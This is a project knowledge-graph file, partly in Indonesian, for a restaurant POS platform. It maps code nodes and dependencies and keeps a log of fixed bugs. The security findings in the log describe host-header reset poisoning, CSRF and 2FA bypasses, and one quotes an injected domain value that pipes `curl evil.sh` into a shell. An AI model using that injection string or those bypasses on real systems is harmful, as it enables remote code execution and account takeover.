

# Knowledge Graph

> Everything is one system. Every page is a node; every line is a real data or design dependency.
> Dikelola oleh skill `alaconnect`. Edit inkremental — jangan generate ulang.
> Graph halaman otomatis (617 halaman, generator `npm run graph`) ada di `KNOWLEDGE_GRAPH.json` dan viewer `/graph`;
> file ini mencatat node kode + data yang dipetakan per task.

Last verified: b4a7115 — 2026-10-22

## Stack

- Next.js 16 (App Router, satu catch-all `app/[[...slug]]`), React 19, TypeScript; test `node --test --experimental-strip-types`.
- Data: adapter lokal (`src/data/store.ts`, localStorage) atau Supabase (`src/data/remoteStore.ts`) — dipilih `src/data/remote.ts` `REMOTE`.
- Sumber kebenaran: halaman/izin/alert dari `spec/` → `npm run spec` → `src/system/*.json` (jangan diedit manual); schema `src/data/schema.ts`; token desain `app/globals.css`; aturan bisnis `src/domain/*`; DB `db/migrations/*`.
- Semua tulisan lewat `commit` (`src/data/actions*.ts`); server menegakkan lewat `bn_write` + trigger `private.docs_guard / docs_rules / staff_rules`.

## Entry points

- Semua route di `src/system/registry.ts` (`npm run paths`); back office pakai template generik kecuali yang ada di `SCREENS` (`src/templates/BackOffice.tsx:17`).
- API: `app/api/**/route.ts`, mesin absen `app/iclock/**`.

## Perintah verifikasi

Tidak ada CI di repo (`.github/workflows` kosong). Urutan murah → mahal:

```bash
npx tsc --noEmit && npm test && npm run -s links && npm run -s check:system && npm run -s check:deploy && npm run -s test:db && npx next build
```

`test:db` butuh Postgres lokal di `localhost:5433` (`/tmp/bnpg`; setelah container restart: `rm -f /tmp/bnpg/data/postmaster.pid; runuser -u postgres -- /usr/lib/postgresql/16/bin/pg_ctl -D /tmp/bnpg/data -l /tmp/bnpg/log -o "-p 5433 -k /tmp" start` dan `pg_ctlcluster 16 main start` untuk server uji); memasang database lewat `scripts/db-migrate.mjs` (sama dengan produksi) di atas `db/platform.sql`. Verifikasi UI: Playwright (Chromium di `/opt/pw-browsers`) terhadap `npx next start`. Prototipe spec (`spec/*.dc.html`) memuat React 18.3.1 + lucide-static 0.452.0 dari unpkg, yang diblok jaringan sandbox: render dengan file dari `npm pack` yang dilayani lewat `page.route` (TLS tetap diverifikasi).

## Nodes

| ID | Tipe | Path | Tanggung jawab (satu kalimat) |
|---|---|---|---|
| comp:FloorGrid | comp | src/ui/Floor.tsx | Menggambar denah satu area (grid sel) untuk editor dan POS |
| comp:Field | comp | src/ui/kit.tsx | Label + kontrol form; label terhubung ke input/select/textarea tunggal |
| fn:saveFloor | fn | src/data/actions/business.ts | Menyimpan denah outlet; menolak hapus/ganti nama meja yang ada tagihan/booking; menyamakan `tables` |
| fn:tablesOf | fn | src/domain/tables.ts | Daftar meja outlet: denah, atau T-01…T-n dari `tables` bila denah kosong |
| fn:tableNames | fn | src/domain/tables.ts | Nama meja outlet dalam urutan denah (dari tablesOf) |
| fn:tableParam | fn | src/domain/tables.ts | Mengubah `?t=` QR menjadi nama meja (07 → T-07, nama lain apa adanya) |
| fn:bookTable | fn | src/data/actions/selforder.ts | Reservasi online tamu: pilih meja bebas terkecil yang muat |
| page:/owner/outlets/tables-and-floor-plan | page | src/screens/floor.tsx | Editor denah per outlet (area, nama, kursi, bentuk, posisi) |
| page:/owner/outlets/outlets | page | src/templates/settingsPages.tsx | Data outlet; kolom Tables jadi tautan ke denah bila denah ada |
| page:/owner/outlets/table-qr-generator | page | src/screens/menu.tsx | Cetak QR per meja dalam urutan denah |
| page:/pos/selling/table-picker | page | src/screens/pos/OrderSheets.tsx | Pilih meja di POS per area, posisi sesuai denah |
| page:/waiter | page | src/screens/waiter.tsx | Daftar meja waiter dengan kursi dan area |
| page:/pic (stations) | page | src/screens/pic.tsx | Section meja PIC per area denah |
| page:/manager | page | src/screens/manager.tsx | Papan meja manager |
| page:/manager create booking | page | src/screens/manager/create.tsx | Form reservasi manager (pilih meja) |
| page:/order (QR menu) | page | src/screens/selforder/shared.tsx | Menu tamu; membaca meja dari QR |
| table:outlets | table | src/data/schema.ts | Outlet; `floor?: FloorTable[]` + `tables` |
| policy:staff_rules | policy | db/migrations/20261016000000_borniz_staff_sessions.sql | Kasir/dapur/waiter tidak boleh menulis `outlets` (termasuk denah) |
| fn:notify | fn | src/data/actions.ts | Satu mesin alert: penerima dari katalog alert, fallback per pemanggil |
| page:/pos/selling/register-order | page | src/screens/pos/Register.tsx | Register POS; hapus/void baris |
| fn:findTable | fn | src/domain/tables.ts | Meja dari QR di denah outlet: nama, lalu nama lama (`was`); null = tidak ada di denah |
| fn:tableNo | fn | src/domain/tables.ts | Label meja untuk tamu: "T-07" → "07", nama lain apa adanya |
| fn:publicUrl | fn | src/system/hosts.ts | URL publik (QR, struk, WA); nama meja di-encode di path `/t/` |
| page:/display | page | src/screens/display.tsx | Customer display |
| page:/account (sign-in, create business) | page | src/screens/auth.tsx | Daftar, masuk, buat bisnis (pilih alamat <slug>.bornis.id) |
| fn:leaveFor | fn | src/system/hosts.ts | Navigasi in-app yang harus pindah host (app. → <slug>.); dipakai go() |
| fn:onBusinessHost | fn | src/system/hosts.ts | Halaman yang sama di host bisnis: daftar/masuk pindah ke <slug>.bornis.id |
| fn:isTenantSlug | fn | src/system/hosts.ts | Nama bisnis yang sah untuk <slug>.bornis.id (bukan host platform, RESERVED) |
| policy:tenants_slug_not_reserved | policy | db/migrations/20261018000000_borniz_tenant_hosts.sql | DB menolak slug yang sama dengan host platform |
| api:/api/bn | api | app/api/bn/[...op]/route.ts | Backend sendiri: rpc/<bn_fn>, read/(members|docs|audit), auth/*, live (SSE) |
| fn:dbCall | fn | src/integrations/server/db.ts | Panggil public.bn_* sebagai pemanggil (anon/authenticated + claim), routing sel per tenant |
| fn:authSession | fn | src/integrations/server/session.ts | Akun, password scrypt, sesi cookie .root, TOTP, link reset sekali pakai |
| fn:liveHub | fn | src/integrations/server/live.ts | LISTEN bn_live per database → stream SSE per bisnis, baris dibaca ulang sebagai user (RLS) |
| policy:bn_guest_write | policy | db/migrations/20261019010000_borniz_guest_fire.sql | Tulisan tamu; notifikasi dapur hanya di batch yang menembakkan item baru |
| test:guest_fire | test | db/tests/guest_fire.sql | Tamu bayar di kasir: pesanan + notifikasi dapur diterima; notifikasi palsu/ulang ditolak |
| test:api | test | db/tests/api.mjs | API ujung ke ujung di role non-superuser: akun, RLS, 2FA, reset, live |
| config:platform | config | db/platform.sql | Platform tanpa Supabase: skema auth (users, sessions, mfa_factors), auth.uid(), role anon/authenticated |
| fn:dbMigrate | fn | scripts/db-migrate.mjs | Pasang/update DB: platform.sql + migration yang belum jalan (ledger public.bn_migrations), hak role app |
| config:deploy | config | deploy/ | Self-host lewat git pull: satu proses Next untuk semua host, nginx meneruskan Host |
| config:proxy | config | proxy.ts | Host → halaman (rewrite/redirect) memakai src/system/hosts.ts |
| fn:holdsTable | fn | src/domain/tables.ts | Satu-satunya aturan "meja terisi": bill terbuka, atau makanan masih di dapur (bayar duluan QR/kiosk) |
| fn:moveTable | fn | src/data/actions.ts | Pindah meja: `movedFrom`, audit `order.table_moved`, alert 'Table moved' ke dapur + waiter bila makanan belum keluar |
| fn:voidItem | fn | src/data/actions.ts | Void item/bill (langsung atau lewat approval `voidIn`); alert 'Item voided' ke dapur + waiter bila sudah di-fire dan belum selesai |
| fn:printTickets | fn | src/devices/hardware.ts | Tiket dapur per station; `banner` untuk slip perubahan (MOVED FROM / VOID) |
| fn:voidSlip | fn | src/screens/pos/shared.tsx | Toast setelah void; slip VOID dicetak print agent |
| fn:printAgent | fn | src/devices/agent.ts | Print agent: tiket, struk auto, slip VOID dari perangkat pemilik printer |
| page:/pos/selling/move-table | page | src/screens/pos/OrderSheets.tsx | Pindah meja: pilih meja asal (semua pesanan hidup di meja itu) → meja kosong |
| page:/kds | page | src/screens/kds.tsx | KDS: banner 'Item voided' / 'Table moved' + "Got it"; tiket menampilkan "T-09 (from T-03)" |
| page:/order status | page | src/screens/selforder/order.tsx | Status pesanan tamu; banner "Table moved" lewat Notices |
| table:orders | table | src/data/schema.ts | Order; `movedFrom?` = meja sebelum dipindah staf |
| table:notices | table | src/data/schema.ts | Alert engine (`notify`); dibaca KDS, waiter, bell |
| test:changes | test | src/data/changes.test.ts | moveTable / voidItem / banner slip |
| test:tables | test | src/domain/tables.test.ts | Aturan denah, sel bebas, parser QR |
| test:floor | test | src/data/floor.test.ts | saveFloor: denah dipakai semua layar, meja bertagihan dilindungi |

## Edges

Arah: `A --tipe--> B` = A bergantung pada B. `?` = belum terverifikasi.

| From | Edge | To | Bukti |
|---|---|---|---|
| page:/owner/outlets/tables-and-floor-plan | calls | fn:saveFloor | src/screens/floor.tsx:45 |
| page:/owner/outlets/tables-and-floor-plan | reads | fn:tablesOf | src/screens/floor.tsx:26 |
| page:/owner/outlets/tables-and-floor-plan | renders | comp:FloorGrid | src/screens/floor.tsx:64 |
| page:/owner/outlets/tables-and-floor-plan | routes-to | page:/owner/outlets/table-qr-generator | src/screens/floor.tsx (Link "Print table QR codes") |
| fn:saveFloor | writes | table:outlets | src/data/actions/business.ts:29 |
| fn:saveFloor | reads | fn:tableNames | src/data/actions/business.ts:27 |
| fn:tableNames | reads | fn:tablesOf | src/domain/tables.ts:15 |
| fn:tablesOf | reads | table:outlets | src/domain/tables.ts (floor / tables) |
| page:/pos/selling/table-picker | reads | fn:tablesOf | src/screens/pos/OrderSheets.tsx:95 |
| page:/pos/selling/table-picker | renders | comp:FloorGrid | src/screens/pos/OrderSheets.tsx:117 |
| page:/waiter | reads | fn:tablesOf | src/screens/waiter.tsx:64 |
| page:/pic (stations) | reads | fn:tablesOf | src/screens/pic.tsx:246 |
| page:/manager | reads | fn:tableNames | src/screens/manager.tsx:208 |
| page:/manager create booking | reads | fn:tableNames | src/screens/manager/create.tsx:73 |
| fn:bookTable | reads | fn:tablesOf | src/data/actions/selforder.ts:45 |
| page:/owner/outlets/table-qr-generator | reads | fn:tableNames | src/screens/menu.tsx:328 |
| page:/order (QR menu) | calls | fn:findTable | src/screens/selforder/shared.tsx:42 (QR lama → meja yang di-rename; tak dikenal → tidak bisa pesan) |
| page:/order (QR menu) | calls | fn:tableParam | src/screens/selforder/shared.tsx:42 |
| page:/owner/outlets/outlets | routes-to | page:/owner/outlets/tables-and-floor-plan | src/templates/settingsPages.tsx:187 |
| table:outlets | guarded-by | policy:staff_rules | db/migrations/20261016000000_borniz_staff_sessions.sql (BN054 list) |
| page:/owner/outlets/tables-and-floor-plan | renders | comp:Field | src/screens/floor.tsx (Name / Seats / Area) |
| page:/pos/selling/table-picker | reads | fn:holdsTable | src/screens/pos/OrderSheets.tsx:95 |
| page:/waiter | reads | fn:holdsTable | src/screens/waiter.tsx:42 |
| page:/manager | reads | fn:holdsTable | src/screens/manager.tsx:209 |
| page:/owner/outlets/tables-and-floor-plan | reads | fn:holdsTable | src/screens/floor.tsx:36 |
| fn:saveFloor | reads | fn:holdsTable | src/data/actions/business.ts:25 |
| page:/pos/selling/move-table | calls | fn:moveTable | src/screens/pos/OrderSheets.tsx:332 |
| page:/pos/selling/move-table | calls | fn:printTickets | src/screens/pos/OrderSheets.tsx:334 |
| fn:moveTable | writes | table:orders | src/data/actions.ts:53 (findOrder → d.orders; movedFrom di :103) |
| fn:moveTable | calls | fn:notify | src/data/actions.ts:104 (notify 'Table moved') |
| fn:notify | writes | table:notices | src/data/actions.ts:40 |
| fn:voidItem | calls | fn:notify | src/data/actions.ts:112 (notify 'Item voided') |
| fn:voidItem | writes | table:orders | src/data/actions.ts:53 (findOrder → d.orders; o.stopped di :110 = slip VOID print agent) |
| page:/pos/selling/register-order | calls | fn:voidItem | src/screens/pos/Register.tsx:107 |
| page:/pos/selling/register-order | calls | fn:voidSlip | src/screens/pos/Register.tsx:107 |
| fn:printAgent | calls | fn:printTickets | src/devices/agent.ts:33 (VOID slip from o.stopped / voided bill) |
| page:/kds | reads | table:notices | src/screens/kds.tsx:72 |
| page:/kds | reads | table:orders | src/screens/kitchen/model.ts:22 (activeTickets; tiket menampilkan movedFrom) |
| page:/order status | reads | table:orders | src/screens/selforder/shared.tsx:44 (pesanan milik HP ini; movedFrom → ikut pindah) |
| fn:findTable | reads | fn:tablesOf | src/domain/tables.ts:54 |
| page:/display | calls | fn:tableNo | src/screens/display.tsx:185 |
| page:/owner/outlets/table-qr-generator | calls | fn:publicUrl | src/system/hosts.ts:139 (linkTo → publicUrl, dipanggil tableUrl) |
| test:tables | tests | fn:findTable | src/domain/tables.test.ts |
| page:/account (sign-in, create business) | calls | fn:onBusinessHost | src/screens/auth.tsx:516 (enterBusiness) |
| fn:publicUrl | reads | fn:isTenantSlug | src/system/hosts.ts:98 (resolve: label host → tenant) |
| policy:tenants_slug_not_reserved | documents | fn:isTenantSlug | db/migrations/20261018000000_borniz_tenant_hosts.sql (daftar sama dengan RESERVED, isTenantSlug di hosts.ts) |
| api:/api/bn | calls | fn:dbCall | app/api/bn/[...op]/route.ts:7 (import call from db.ts) |
| api:/api/bn | calls | fn:liveHub | app/api/bn/[...op]/route.ts:9 (import subscribe from live.ts) |
| test:api | tests | api:/api/bn | db/tests/api.mjs |
| test:guest_fire | tests | policy:bn_guest_write | db/tests/guest_fire.sql |
| fn:dbMigrate | reads | config:platform | scripts/db-migrate.mjs:25 (db/platform.sql) |
| config:deploy | routes-to | config:proxy | deploy/nginx-proxy.conf:4 (proxy_set_header Host; hosts.ts routes by it) |
| config:deploy | calls | fn:dbMigrate | deploy/update.sh (node --env-file … scripts/db-migrate.mjs); deploy/setup-vps.sh migrasi borniz_dev |
| test:changes | tests | fn:moveTable | src/data/changes.test.ts |
| test:changes | tests | fn:voidItem | src/data/changes.test.ts |
| test:tables | tests | fn:tablesOf | src/domain/tables.test.ts |
| test:floor | tests | fn:saveFloor | src/data/floor.test.ts |

## Diagram



## Temuan

| Tanggal | Node | Temuan | Status |
|---|---|---|---|
| 2026-10-14 | page:/owner/outlets/tables-and-floor-plan | Halaman bernama "floor plan" hanya berisi daftar reservasi | fixed (editor denah) |
| 2026-10-14 | comp:Field | Label tidak terhubung ke input di seluruh aplikasi (a11y, tap label) | fixed |
| 2026-10-14 | src/screens/brand.tsx | Preview KDS menampilkan "T-T-05" (`'T-' + o.table`) | fixed |
| 2026-10-18 | policy:bn_guest_write | BN047: tamu "bayar di kasir" tidak bisa kirim pesanan ke dapur (notifikasi 'New order' dari fire() ditolak, seluruh batch gagal) — juga terjadi di Supabase, baru ketahuan lewat uji ujung ke ujung | fixed (migration guest_fire + tes) |
| 2026-10-18 | src/app/App.tsx | HP tamu menjalankan mesin alert staf (sweepAlerts/escalate/watchKitchen) tiap 60 dtk → tulis alert staf yang selalu ditolak server | fixed (hanya perangkat staf) |
| 2026-10-18 | fn:authSession | 2FA bisa diaktifkan tapi tidak pernah diminta saat login | fixed (kode TOTP wajib saat masuk) |
| 2026-10-18 | config:proxy | Redirect proxy membuang query: QR lama `order.bornis.id/kopibiru/t/07?o=kem` kehilangan outlet | fixed (query ikut) |
| 2026-10-18 | test (npm test) | `--test-force-exit` memotong output: 2 tes terakhir alerts.test.ts kadang tidak dilaporkan (201/203); akar: BroadcastChannel di store.ts menahan proses Node | fixed (unref, flag dihapus; 203 stabil 4×) |
| 2026-10-18 | config:deploy | Di belakang reverse proxy (X-Forwarded-Proto https) dengan `next start -H 127.0.0.1`, semua halaman subdomain 500 ("Failed to proxy https://localhost:3000"); `-H localhost` lolos | fixed (deploy/borniz.service) |
| 2026-10-18 | config:deploy | `.env.example` hanya 5 dari 13 env yang dibaca kode (tanpa Supabase / server secret) | fixed |
| 2026-10-18 | config:deploy | Service jalan sebagai www-data tapi `.env.production` chmod 600 milik root → app tidak bisa baca env, diam-diam jalan mode demo; `git pull` sebagai root di folder milik user lain ditolak git | fixed (user `borniz` memiliki folder + service; update.sh pindah ke pemilik folder) |
| 2026-10-18 | config:deploy | setup-vps.sh: `nginx -t && reload` di bawah `set -e` → config nginx rusak tetap "Done" (ketahuan saat uji di Ubuntu 24.04 container) | fixed (baris terpisah) |
| 2026-10-19 | fn:tOf | Mode database: pelanggan ikut jendela riwayat 35 hari (t = joinedAt) → member lama hilang dari POS, loyalty, template pesan | fixed (UNWINDOWED + migration customers_unwindowed + tes) |
| 2026-10-19 | comp:Link | 113 halaman: prefetch Link ke halaman host lain (terms, developer docs, login) → redirect lintas origin → error CORS | fixed (src/ui/Link.tsx, semua import) |
| 2026-10-19 | src/devices/Connect.tsx | `crypto.randomUUID` tidak ada di http (sebelum sertifikat) → halaman perangkat/kiosk/printer crash | fixed (getRandomValues) |
| 2026-10-19 | src/screens/studio/extras.tsx | Preview referral & custom fields crash di bisnis tanpa pelanggan/produk (`customers[0].name`) | fixed |
| 2026-10-19 | src/templates/Form.tsx | Form PO crash di bisnis tanpa supplier (`suppliers[0].id`) | fixed (Empty state) |
| 2026-10-19 | api:/api/bn | Reset password: link dibangun dari Host header → Host palsu bikin email asli berisi link ke situs penyerang → ambil alih akun tanpa 2FA | fixed (ownsHost + nginx default_server 444 + tes) |
| 2026-10-19 | api:/api/payments/charge | Tamu QR tidak bisa bayar QRIS/VA (tenantId = slug, bukan UUID); orang yang login di bisnis lain ditolak 403 | fixed |
| 2026-10-19 | api:/api/bn | Cookie lama bisa matikan 2FA & ganti password; reset tidak memutus sesi lain; stream live jalan terus setelah logout | fixed (kode 2FA, sesi ≤15 menit, revoke, cek sesi per 25 dtk + tes) |
| 2026-10-19 | config:deploy | nginx `$proxy_add_x_forwarded_for` → IP palsu tembus batas percobaan login | fixed ($remote_addr) |
| 2026-10-19 | api:/api/payments/refund | Refund lewat gateway tanpa approval, bisa dobel bila 2 request bersamaan | fixed (wajib approval refund yang approved, sekali per approval via outbox claim) |
| 2026-10-19 | api:/api/messages/send | Register bersama bisa kirim WA/email ke nomor & pengirim bebas; webhook Studio menerima url+secret dari body | fixed (hanya baris messages yang antre; endpoint & pengirim dari versi Studio yang dipublish) |
| 2026-10-19 | src/app/App.tsx | Outlet aktif dipilih sekali saat data bisnis belum termuat → tetap outlet seed `sen`: bisnis "Start empty" crash di 92 halaman, bisnis lain diam-diam salah outlet | fixed (outlet selalu salah satu outlet bisnis; crawl bisnis kosong 92 → 0) |
| 2026-10-19 | api:/api/payments/charge | Charge dipanggil sebelum baris pembayaran sampai server → 404 "Payment not found" untuk setiap QRIS/VA | fixed (remoteSent: tunggu baris terkirim) |
| 2026-10-19 | api:/api/payments/simulate | Tombol "Simulate payment" di HP tamu → 401 | fixed (tamu boleh untuk pesanan tamu, hanya bila simulator aktif) |
| 2026-10-19 | src/screens/states.tsx | Galeri state crash di bisnis tanpa produk/stok | fixed (pakai data demo) |
| 2026-10-19 | fn:publicUrl | Domain merchant tercatat di 3 tempat (Menu Studio, Platform Studio, admin di browser saja) dan tak satu pun dibaca router; QR/struk pindah ke domain yang belum dilayani server; admin bilang CNAME edge.bornis.id, Studio bilang menu.bornis.id; "sertifikat otomatis" tidak benar | fixed (satu sumber: config deployment + deploy/add-domain.sh; liveDomain; admin lihat permintaan via bn_admin_tenants) |
| 2026-10-19 | src/screens/studios/platform.tsx | Tombol "Continue with Google/Microsoft/SAML" + "Require SSO" tidak melakukan apa-apa | removed (SSO belum dibangun, CLAUDE.md Known gaps) |
| 2026-10-19 | fn:dbMigrate | Semua otomasi (sweep alert, eskalasi, pelunasan QRIS, outbox WA/email/webhook) hanya jalan bila ada perangkat staf terbuka | fixed (worker server: src/integrations/server/worker.ts + borniz-worker.service; uji: QRIS settled → paid tanpa perangkat) |
| 2026-10-19 | config:deploy | update.sh build langsung di .next yang sedang dilayani: build gagal = situs rusak, selama build file setengah jadi | fixed (build ke .next-new lalu tukar; uji: build gagal → situs tetap 200) |
| 2026-10-19 | src/data/actions/admin.ts | Mode database: slug bisnis ditaruh di meta.source (kanal akuisisi) | fixed (meta.slug) |
| 2026-10-19 | src/screens/auth.tsx | Login PIN mengirim SEMUA role ke kasir, dan hanya kasir/PIC/manager/owner yang tampil: dapur & waiter tidak bisa login di KDS / HP waiter (mode database) | fixed (HOME + startFor, staf sesuai halaman tujuan, ?next=) |
| 2026-10-19 | src/session.ts | Customer display di register bersama minta PIN staf; link notifikasi hilang setelah login (selalu ke /owner) | fixed (display tanpa PIN; ?next= dibawa) |
| 2026-10-19 | src/system/hosts.ts | Sesaat setelah login (data bisnis belum termuat, id "") go() pindah ke https://.bornis.id/… lalu app.bornis.id | fixed (tenant \|\| hostTenant + tes yang gagal tanpa fix) |
| 2026-10-19 | src/integrations/Panel.tsx | URL webhook gateway/ojol yang disalin merchant berisi slug, route webhook hanya terima id → setiap pelunasan QRIS & order ojol via webhook ditolak 400 | fixed (id bisnis; uji: slug 400, id lolos ke cek signature) |
| 2026-10-19 | src/system/hosts.ts | Owner Mobile (/system/mobile) dilayani di app. (host tanpa bisnis) | fixed (prefix terpanjang menang: host bisnis) |
| 2026-10-19 | app/manifest.ts | Satu PWA start_url /pos untuk semua: tablet KDS / kiosk / display yang di-install terbuka di kasir | fixed (manifest per aplikasi: /api/app-manifest) |
| 2026-10-19 | src/data/alerts/staff.ts | Katalog menjanjikan WhatsApp ke staf (refund besar, opname, telat, Z report, payslip …) tapi tidak ada yang terkirim | fixed (12 alert dari katalog, saklar owner default mati, uji worker: owner + manager outlet menerima WA tanpa perangkat terbuka) |
| 2026-10-20 | src/data/alerts/rules.ts | Satu outlet tanpa nama (dokumen tak lengkap) membuat index() alert crash → seluruh sweep + otomasi worker bisnis itu berhenti | fixed (name ?? '') |
| 2026-10-20 | fn:liveHub | Live update dibaca ulang per perubahan × per layar di pool 10 koneksi yang sama dengan API: 80 layar + commit 100 dokumen → request biasa (login, bayar) menunggu 2,8 detik | fixed (batch 25 ms, satu baca per akun, pool live sendiri 3 koneksi: 6 ms; tes db/tests/live-load.mjs gagal tanpa fix) |
| 2026-10-20 | policy:staff_rules | Diuji: rantai approval di server (permintaan baru harus waiting BN005, level pemutus BN009, tidak boleh memutus sendiri BN007, PIN approver lewat sesi kasir, satu PIN satu keputusan BN008) | holds — tidak ada bug (db/tests/approvals_db.sql) |
| 2026-10-20 | page:/admin/custom-domains | Domain yang diketik merchant masuk mentah ke perintah root yang disalin admin (`x.id;curl evil.sh|sh;#`); host platform (admin.) & domain yang diminta 2 bisnis tetap diberi perintah | fixed (server hanya mengirim host name, konsol menolak host BorNiz & menandai bentrok; tes platform_admin.sql + admin-console.test.ts) |
| 2026-10-20 | fn:bn_admin_tenants | Satu dokumen merchant dengan `at` bukan angka membuat seluruh daftar tenant admin error (konsol berputar terus) | fixed |
| 2026-10-20 | app/api/bn/[...op]/route.ts | API menerima POST text/plain (form tanpa preflight) dan origin host lain dengan cookie sesi .bornis.id → halaman lain bisa mengubah plan atas nama admin yang sedang login | fixed (hanya JSON + origin host sendiri, 403) |
| 2026-10-20 | src/data/backend.ts | Staf BorNiz yang juga member sebuah bisnis tidak bisa membuka konsol admin (admin. membuka bisnis pertamanya) | fixed |
| 2026-10-20 | src/data/remoteStore.ts | Layar tamu mengambil plan dari dokumen _meta milik merchant → merchant bisa menaikkan plan sendiri, turun plan dari admin tidak berlaku di QR menu/kiosk | fixed (plan dari tenants.plan) |
| 2026-10-20 | src/data/actions/admin.ts | Mode database: hampir semua aksi konsol admin (suspend, perpanjang trial, invoice, tiket, flag, harga plan, tema default, akses support) hanya tersimpan di memori browser; tidak ada yang membaca suspend/flag; akses support palsu | fixed (keputusan owner "ya": platform_records + platform_audit; suspend menghentikan tulisan/QR/worker; trial di server; akses support disetujui owner dengan PIN, baca set-up saja; tes platform_console.sql, support_access.sql, e2e browser) |
| 2026-10-20 | fn:bn_start_trial | Trial 14 hari yang dipilih owner saat daftar hanya ditulis ke dokumen bisnis → di mode database tidak pernah aktif | fixed (bn_start_trial sekali, berakhir ke Free bila belum dibayar) |
| 2026-10-21 | page:/admin/plans-and-pricing | Harga yang diubah staf BorNiz tidak terlihat calon pelanggan: halaman harga, pilih plan & checkout memakai harga tetap di kode (dua daftar harga: PLANS dan PLAN_PRICE) | fixed (bn_public_prices → usePlans; satu daftar default; tes platform_console.sql + plan-limits.test.ts) |
| 2026-10-20 | page:/admin/plans-and-pricing | Tema default tersimpan di server tapi belum dibaca; flag & rilis belum dibaca fitur mana pun; invoice belum dibuat oleh billing; tiket belum bisa dikirim merchant | open |
| 2026-10-20 | fn:bn_is_platform_admin | Staf BorNiz tanpa 2FA tetap bisa memakai konsol walau label "2FA" (password bocor = konsol terbuka) | fixed 2026-10-21 (sesi mencatat kode authenticator `auth.sessions.mfa`; API menolak bn_admin_* tanpa itu BN077; konsol menawarkan set-up dulu; tes cells-api.mjs) |
| 2026-10-23 | fn:mfaEnroll | Review: sesi dari link reset (tanpa kode) bisa mendaftarkan authenticator sendiri lalu lolos 2FA konsol (BN077) | fixed (akun yang sudah punya faktor hanya menambah dari sesi yang lulus kode; tes api.mjs gagal tanpa fix) |
| 2026-10-23 | fn:blankDB | Review: bentuk kosong setiap bisnis memakai seed().theme yang kini memuat kata-kata demo → bisnis tanpa dokumen tema menampilkan promo/WiFi Kopi Biru (fix sebelumnya hanya di starterData) | fixed (satu `plainTheme` untuk keduanya; tes new-business.test.ts) |
| 2026-10-23 | policy:plan_rules | Review: dua tambah register bersamaan sama-sama lolos batas Free (count tanpa lock) | fixed (advisory lock per bisnis + jenis; tes plan-race.mjs: lama 'both passed', baru BN076) |
| 2026-10-23 | api:/api/bn | Review: tiket & invoice dicek di member platform, padahal bisnis pindahan menambah member di database-nya sendiri → manager baru ditolak | fixed (API bertanya ke database bisnis, lalu fungsi server di platform; tes cells-api.mjs) |
| 2026-10-23 | src/data/billing.ts | Review: outlet sisa downgrade ikut ditagih (Checkout tidak); error billing menghentikan seluruh run worker bisnis itu + tulis platform tiap menit | fixed (dibatasi seperti Checkout; error dicatat, run lanjut; sekali per proses). Tagihan tahunan belum ada (open) |
| 2026-10-23 | src/data/alerts/automations.ts | Review: ulang tahun awal Januari tak pernah terkirim; win-back > 35 hari di luar jendela data; saklar link review / pemulihan 1–2★ / fallback email / nudge beans tidak dibaca | fixed (tahun depan ikut dihitung; maks 30 hari; saklar yang tak bisa jalan dihapus, nudge beans = alert Points expiring) |
| 2026-10-23 | comp:Help | Merchant tidak bisa membuka tiket support (halaman tiket admin tak pernah terisi); tiket admin tanpa isi pesan; semua staf meng-assign sebagai email palsu `ops@bornis.id` | fixed (Help › Contact BorNiz support untuk owner/manager, bn_open_ticket/bn_my_tickets; admin melihat pesan & pembuka, assign ke email staf yang login; tes tickets_db.sql) |
| 2026-10-23 | src/data/billing.ts | Billing BorNiz tidak membuat invoice apa pun (spec: otomatis, plan × outlet); halaman Subscription billing owner menampilkan invoice karangan | fixed (worker menerbitkan sekali per bisnis per bulan, owner membaca dari platform; tes billing.test.ts + billing_db.sql) |
| 2026-10-23 | src/templates/views.ts | 13 jenis data tanpa tabel (biaya, budget, aset, batch, transfer, broadcast, cuti, layanan, tagihan BorNiz, insiden…) jatuh ke baris contoh `genericRows` bila bisnis belum punya → merchant nyata melihat biaya/budget/invoice karangan ("BorNiz Pro · Oct 2026 · Paid IDR 1.047.000"), dan sweep alert + worker menembakkan alert dari data karangan (batch kedaluwarsa, transfer masuk, budget lewat) | fixed (contoh hanya di seed.ts demo; tanpa fallback; `ix.gen` dilebur ke `ix.rec`; tes new-business.test.ts gagal tanpa fix) |
| 2026-10-23 | fn:fromDocs | Daftar records dari server tersusun menurut id, bukan waktu (list bertanda waktu lain diurutkan) | fixed (terbaru dulu) |
| 2026-10-22 | doc:spec | Produk diubah (testimoni palsu dihapus, ikon generik diganti, aturan ukuran teks) tanpa mengubah halaman spec → spec masih menampilkan testimoni & ikon lama dan `npm run spec` bisa mengembalikannya | fixed (Landing, States Gallery, Studios, Loyalty, Design Notes + entri CHANGES di Connections; render diuji tanpa error) |
